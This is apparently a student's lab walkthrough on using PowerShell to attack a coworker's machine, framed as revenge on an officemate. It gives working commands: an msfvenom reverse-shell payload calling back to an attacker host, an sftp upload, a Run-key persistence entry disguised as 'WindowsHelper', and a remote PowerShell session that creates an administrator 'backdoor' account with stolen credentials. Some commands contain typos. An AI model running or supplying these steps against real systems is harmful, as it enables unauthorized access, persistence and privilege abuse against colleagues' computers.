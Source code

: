 ## Introduction

We have a hands-on lab in university where we played around powershell commands. 
I modified our lab activity which revolves in powershell cmdlets command and clie then tried creating a real world scenario which you can utilize powershell as a tool for hacking.

Hope you enjoy my Walkthrough! 

### Context

You have an officemate named Tyronne whose account was recently been reset by the IT administrator.

IT team sometimes fail to follow proper security practices. They just leave sticky notes with new login credentials on employees’ desks for them to reset their passwords.

Tyronne’s primary responsibility involves remotely accessing the PC of another user referred to as “Victim”, where he executes commands via remote sessions.

You really hate this kid, before tyronne can change his password you need to find a way to create a backdoor user at victim's account.

NOTE: 

tyronne's environment was already modified:
* Windows Defender is off 
* Executing unsigned powershell commands was already allowed. 
* Don't become tyronne 

## Vector of Attack

![](../z.attachments/Pasted%20image%2020250611172051.png)

## Foothold


![](../z.attachments/Pasted%20image%2020250611164942.png)

Testing foothold
```
ssh tyronne@192.168.1.100
```

## Creating persistence

* Need to create persistence to always have access to this machine anytime of the day even if he changed password (only useless if machine is off)

Create reverse shell
```
msfvenom -p windows/x64/shell/reverse_tcp LHOST=10.0.0.42 LPORT=9999 -f exe -o reverseshell.exe
```

Insert Payload
```
sftp tyronne@192.168.1.100 <<< $'put reversehell.exe
```

Create startup command
```
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v WindowsHelper /d "%USERPROFILE%\reverseshell.exe /f
```

reboot and launch metasploit


## Commands to run

```
$cred = Import-Clixml "$env:USERPROFILE\remote_cred.xml"

$session1 = New-PSsession -ComputerName 172.16.69.129 -Authentication Negotiate -Credential $cred

```


Test if you can get the user info of Victim
```
Invoke-Command -Session $session1 -ScriptBlock {Get-ComputerInfo|Select-Object csprimaryownername,
csdnshostname, Windowsbuildlabex}
```

Technically the .xml file password is encoded it is much easier to create a new user than decoding it in hashcat/jtr depends on the complexity of the password. 


New command
```
Invoke-Command -Session $session1 -ScriptBlock {New-LocalUser -Name "backdoor" -Password (ConvertTo-SecureString 'testing123' -AsPlainText -Force) -FullName "pwned" -Description "pwned by zaakceptowac" Add-LocalGroupMember -Group "Administrators" -Member "backdoor"}
```


Try if you can rdp to this machine using your credentials

## Main takeways

* Powershell is powerful
* Pivoting is easy when you already have credentials
* Always practice good security hygiene (internal/external)
